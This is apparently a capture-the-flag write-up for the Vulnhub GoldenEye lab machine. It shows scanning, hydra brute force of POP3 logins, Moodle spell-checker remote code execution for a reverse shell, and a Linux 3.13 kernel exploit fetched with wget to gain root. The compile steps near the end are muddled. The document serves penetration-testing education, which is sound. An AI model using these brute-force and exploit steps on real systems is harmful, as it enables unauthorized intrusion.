# Information

- Name: Golden Eye
- Date release: 4 May 2018
- Author: creososte
- Series: GoldenEye
- Platform: Vulnhub
- Link: https://www.vulnhub.com/entry/goldeneye-1,240/
- Difficulty: Medium

# Write Up
## Enumeration
### Host Discovery 
Host Discovery is performed using [arpScan](https://github.com/aalmeidar/Tools). In this lab, machine ip is _10.0.2.30_.
```Shell
# arpScan.py -m 2 -r 10.0.2.0/24
[*] 52:54:00:12:35:00 10.0.2.1
[*] 52:54:00:12:35:00 10.0.2.2
[*] 08:00:27:ac:a4:24 10.0.2.3
[*] 08:00:27:d6:c7:04 10.0.2.30
```
### Port Scanning
Port Scanning is realized with [portScan](https://github.com/aalmeidar). Tool reported 4 open ports.
```Shell
# portScanner.py -i 10.0.2.30                      
[∧] Scanning Ports: 65535
[*] Port 25 (smtp) open
[*] Port 80 (http) open
[*] Port 55007 (unknown) open
[*] Port 55006 (unknown) open
```
### Banner Grabbing
- Port 25:
```Console
nc -vn 10.0.2.30 25
(UNKNOWN) [10.0.2.30] 25 (smtp) open
220 ubuntu GoldentEye SMTP Electronic-Mail agent
```
SMTP is running on port 25.
- Port 80:
```Console
nc -vn 10.0.2.30 80
(UNKNOWN) [10.0.2.30] 80 (http) open
test
HTTP/1.1 400 Bad Request
Date: Sat, 10 Sep 2022 15:41:40 GMT
Server: Apache/2.4.7 (Ubuntu)
Content-Length: 300
Connection: close
Content-Type: text/html; charset=iso-8859-1

<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>400 Bad Request</title>
</head><body>
<h1>Bad Request</h1>
<p>Your browser sent a request that this server could not understand.<br />
</p>
<hr>
<address>Apache/2.4.7 (Ubuntu) Server at 127.0.1.1 Port 80</address>
</body></html>

```
Apache 2.4.7 is running on port 80.
- Port 55006:
```Console
nc -vn 10.0.2.30 55006
(UNKNOWN) [10.0.2.30] 55006 (?) open
test
```
Unkown service running on port 55006.

- Port 55007:
```Console
nc -vn 10.0.2.30 55007
(UNKNOWN) [10.0.2.30] 55007 (?) open
+OK GoldenEye POP3 Electronic-Mail System
```

Pop3 is running on port 55007.

### Web
In _Index_ there is a message and give us a login panel (_/sev-home/_). Let's see source code.




There is a html escape encoded password. The password is: InvincibleHack3r. So, let's try user _boris_ (the message is for him) and password _InvincibleHack3r_. 


The login is successful. Also, in the source code there are two users:


## Exploitation

Now, let's bruteforce pop3 with source code users and password wordlist (_fasttrack.txt_). Let's use _hydra_.

```Console
hydra -L users.txt -P fasttrack.txt -s 55007 10.0.2.30 pop3
[DATA] max 16 tasks per 1 server, overall 16 tasks, 444 login tries (l:2/p:222), ~28 tries per task
[DATA] attacking pop3://10.0.2.30:55007/
[STATUS] 80.00 tries/min, 80 tries in 00:01h, 364 to do in 00:05h, 16 active
[55007][pop3] host: 10.0.2.30   login: boris   password: secret1!
[55007][pop3] host: 10.0.2.30   login: natalya   password: bird
1 of 1 target successfully completed, 2 valid passwords found
```
 Two users found. Natalya has an interesting mail.

```Console
telnet 10.0.2.30 55007
Trying 10.0.2.30...
Connected to 10.0.2.30.
Escape character is '^]'.
+OK GoldenEye POP3 Electronic-Mail System
user natalya
+OK
pass bird
+OK Logged in.
LIST
+OK 2 messages:
1 631
2 1048
.
RETR 2
+OK 1048 octets
Return-Path: <root@ubuntu>
X-Original-To: natalya
Delivered-To: natalya@ubuntu
Received: from root (localhost [127.0.0.1])
        by ubuntu (Postfix) with SMTP id 17C96454B1
        for <natalya>; Tue, 29 Apr 1995 20:19:42 -0700 (PDT)
Message-Id: <20180425031956.17C96454B1@ubuntu>
Date: Tue, 29 Apr 1995 20:19:42 -0700 (PDT)
From: root@ubuntu

Ok Natalyn I have a new student for you. As this is a new system please let me or boris know if you see any config issues, especially is it's related to security...even if it's not, just enter it in under the guise of "security"...it'll get the change order escalated without much hassle :)

Ok, user creds are:

username: xenia
password: RCP90rulez!

Boris verified her as a valid contractor so just create the account ok?

And if you didn't have the URL on outr internal Domain: severnaya-station.com/gnocertdir
**Make sure to edit your host file since you usually work remote off-network....

Since you're a Linux user just point this servers IP to severnaya-station.com in /etc/hosts.


.
```
So let's add the domain to /etc/hosts and try login with xenia credentials.



The web report that there is a message from Dr Doak, let's see it.



Now, let's bruteforce again but with user doak.

```Console
# hydra -l doak -P fasttrack.txt -s 55007 10.0.2.30 pop3
Hydra v9.3 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-09-10 18:13:55
[INFO] several providers have implemented cracking protection, check with a small wordlist first - and stay legal!
[DATA] max 16 tasks per 1 server, overall 16 tasks, 222 login tries (l:1/p:222), ~14 tries per task
[DATA] attacking pop3://10.0.2.30:55007/
[STATUS] 80.00 tries/min, 80 tries in 00:01h, 142 to do in 00:02h, 16 active
[STATUS] 72.00 tries/min, 144 tries in 00:02h, 78 to do in 00:02h, 16 active
[55007][pop3] host: 10.0.2.30   login: doak   password: goat
1 of 1 target successfully completed, 1 valid password found
```

And we have another credential. Login is successful in pop3 and there is a message with moodle password.

```Console
telnet 10.0.2.30 55007
Trying 10.0.2.30...
Connected to 10.0.2.30.
Escape character is '^]'.
+OK GoldenEye POP3 Electronic-Mail System
user doak
+OK
pass goat
+OK Logged in.
list
+OK 1 messages:
1 606
.
retr 1
+OK 606 octets
Return-Path: <doak@ubuntu>
X-Original-To: doak
Delivered-To: doak@ubuntu
Received: from doak (localhost [127.0.0.1])
        by ubuntu (Postfix) with SMTP id 97DC24549D
        for <doak>; Tue, 30 Apr 1995 20:47:24 -0700 (PDT)
Message-Id: <20180425034731.97DC24549D@ubuntu>
Date: Tue, 30 Apr 1995 20:47:24 -0700 (PDT)
From: doak@ubuntu

James,
If you're reading this, congrats you've gotten this far. You know how tradecraft works right?

Because I don't. Go to our training site and login to my account....dig until you can exfiltrate further information......

username: dr_doak
password: 4England!
```
There is a private file in doak moodle:



```Console
cat s3cret.txt 
007,

I was able to capture this apps adm1n cr3ds through clear txt. 

Text throughout most web apps within the GoldenEye servers are scanned, so I cannot add the cr3dentials here. 

Something juicy is located here: /dir007key/for-007.jpg

Also as you may know, the RCP-90 is vastly superior to any other weapon and License to Kill is the only way to play.%   
```

Let's access and extract metadata wit _exiftool_.


```Console
exiftool for-007.jpg 
ExifTool Version Number         : 12.44
File Name                       : for-007.jpg
Directory                       : .
File Size                       : 15 kB
File Modification Date/Time     : 2022:09:10 18:21:54+02:00
File Access Date/Time           : 2022:09:10 18:21:54+02:00
File Inode Change Date/Time     : 2022:09:10 18:21:54+02:00
File Permissions                : -rw-r--r--
File Type                       : JPEG
File Type Extension             : jpg
MIME Type                       : image/jpeg
JFIF Version                    : 1.01
X Resolution                    : 300
Y Resolution                    : 300
Exif Byte Order                 : Big-endian (Motorola, MM)
Image Description               : eFdpbnRlcjE5OTV4IQ==
Make                            : GoldenEye
Resolution Unit                 : inches
Software                        : linux
Artist                          : For James
Y Cb Cr Positioning             : Centered
Exif Version                    : 0231
Components Configuration        : Y, Cb, Cr, -
User Comment                    : For 007
Flashpix Version                : 0100
Image Width                     : 313
Image Height                    : 212
Encoding Process                : Baseline DCT, Huffman coding
Bits Per Sample                 : 8
Color Components                : 3
Y Cb Cr Sub Sampling            : YCbCr4:4:4 (1 1)
Image Size                      : 313x212
Megapixels                      : 0.066
```

Image description is encoded with base64.

```Console
echo "eFdpbnRlcjE5OTV4IQ==" | base64 -d
xWinter1995x!
```

So, we have access to admin panel. To get a reverse shell, we are going to exploit spell checker , because is vulnerable to RCE.

To exploit it, you must put a one line command reverse shell, change the default spell engine to PSpellShell, go to post section and click on spellchecker box.




## Privilege escalation

```Console
www-data@ubuntu:/tmp$ whoami
www-data
www-data@ubuntu:/tmp$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@ubuntu:/tmp$ uname -a
Linux ubuntu 3.13.0-32-generic #57-Ubuntu SMP Tue Jul 15 03:51:08 UTC 2014 x86_64 x86_64 x86_64 GNU/Linux
```

Linux 3.13.0 on Ubuntu is vulnerable to privilege escalation. 

```Console
searchsploit Linux 3.13 Ubuntu
------------------------------- ---------------------------------
 Exploit Title                 |  Path
------------------------------- ---------------------------------
Linux Kernel 3.13.0 < 3.19 (Ub | linux/local/37292.c
Linux Kernel 3.13.0 < 3.19 (Ub | linux/local/37293.txt
Linux Kernel 3.13/3.14 (Ubuntu | linux/dos/36743.c
Linux Kernel 3.4 < 3.13.2 (Ubu | linux/local/31346.c
Linux Kernel 3.4 < 3.13.2 (Ubu | linux_x86-64/local/31347.c
Linux Kernel 4.10.5 / < 4.14.3 | linux/dos/43234.c
Linux Kernel < 4.13.9 (Ubuntu  | linux/local/45010.c
Linux Kernel < 4.4.0-116 (Ubun | linux/local/44298.c
Linux Kernel < 4.4.0-21 (Ubunt | linux_x86-64/local/44300.c
Linux Kernel < 4.4.0-83 / < 4. | linux/local/43418.c
Linux Kernel < 4.4.0/ < 4.8.0  | linux/local/47169.c
Ubuntu < 15.10 - PT Chown Arbi | linux/local/41760.txt
------------------------------- ---------------------------------
Shellcodes: No Results
#searchsploit -m 37292.c
```

Let's transfer it to the machine. 

```Console
wget http://10.0.2.19/37292.c
--2022-09-10 09:41:35--  http://10.0.2.19/37292.c
Connecting to 10.0.2.19:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 4968 (4.9K) [text/x-csrc]
Saving to: '37292.c'

100%[======================================>] 4,968       --.-K/s   in 0s      

2022-09-10 09:41:35 (164 MB/s) - '37292.c' saved [4968/4968]
# gcc 37292.c -o ofs           
The program 'gcc' is currently not installed. To run 'gcc' please ask your administrator to install the package 'gcc'

```

But gcc is not installed, so let's try with cc. Also check if the code execute gcc.

```Console
cat 37292.c | grep "gcc"
user@ubuntu-server-1504:~$ gcc ofs.c -o ofs
    lib = system("gcc -fPIC -shared -o /tmp/ofs-lib.so /tmp/ofs-lib.c -ldl -w");
www-data@ubuntu:/tmp/exploit$ nano 37292.c 

Error writing /var/www/.nano_history: Permission denied
www-data@ubuntu:/tmp/exploit$ cat 37292.c | grep "gcc"
user@ubuntu-server-1504:~$ gcc ofs.c -o ofs
www-data@ubuntu:/tmp/exploit$ ./ofs
spawning threads
mount #1
mount #2
child threads done
/etc/ld.so.preload created
creating shared library
# id
uid=0(root) gid=0(root) groups=0(root),33(www-data)
# whoami
root
# ls -la /root
total 44
drwx------  3 root root 4096 Apr 29  2018 .
drwxr-xr-x 22 root root 4096 Apr 24  2018 ..
-rw-r--r--  1 root root   19 May  3  2018 .bash_history
-rw-r--r--  1 root root 3106 Feb 19  2014 .bashrc
drwx------  2 root root 4096 Apr 28  2018 .cache
-rw-------  1 root root  144 Apr 29  2018 .flag.txt
-rw-r--r--  1 root root  140 Feb 19  2014 .profile
-rw-------  1 root root 1024 Apr 23  2018 .rnd
-rw-------  1 root root 8296 Apr 29  2018 .viminfo
# cat /root/.flag.txt
Alec told me to place the codes here: 

568628e0d993b1973adc718237da6e93

If you captured this make sure to go here.....
/006-final/xvf7-flag/

```

